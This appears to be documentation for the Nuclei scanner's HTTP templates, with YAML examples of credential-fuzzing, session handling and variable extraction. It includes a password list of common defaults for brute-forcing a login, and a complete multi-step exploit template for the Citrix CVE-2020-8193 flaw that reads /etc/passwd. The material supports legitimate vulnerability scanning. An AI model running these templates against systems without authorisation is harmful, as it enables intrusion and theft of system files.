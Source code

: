 ```yaml
---
title: "HTTP Payloads"
---
```


## HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

http:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    attack: clusterbomb # Available types: batteringram,pitchfork,clusterbomb
    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each request and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>


    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```